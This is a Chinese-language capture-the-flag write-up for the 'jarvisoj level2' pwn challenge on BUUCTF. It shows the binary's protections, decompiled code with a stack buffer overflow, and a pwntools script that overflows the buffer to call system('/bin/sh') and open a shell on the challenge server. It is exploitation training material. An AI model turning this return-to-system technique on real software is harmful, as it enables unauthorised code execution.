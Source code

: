 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2
date: 2022-3-21 10:20:02
permalink: /pages/2e1547494524d182
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞函数vulnerable_function如下

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

程序表如下

![jarvisoj_level2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level2_1.png)

Gadget

```shell
ROPgadget --binary level2 --string "/bin/sh\x00"              
Strings information
============================================================
0x0804a024 : /bin/sh
```

## 思路分析

1. 目前信息:
   - vulnerable_function函数可溢出
   - plt表内有system
   - 程序内有/bin/sh字符串
   - No PIE
2. 思路

- 直接溢出到plt表内的system处，传入/bin/sh地址即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2/level2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29484)
elf = ELF(pwnfile)
padding = 0x88+4
bin_sh = 0x0804A024
payload = flat(['a'*padding, elf.plt['system'], 0xdeadbeef, bin_sh])
io.recv()
io.sendline(payload)
io.interactive()
```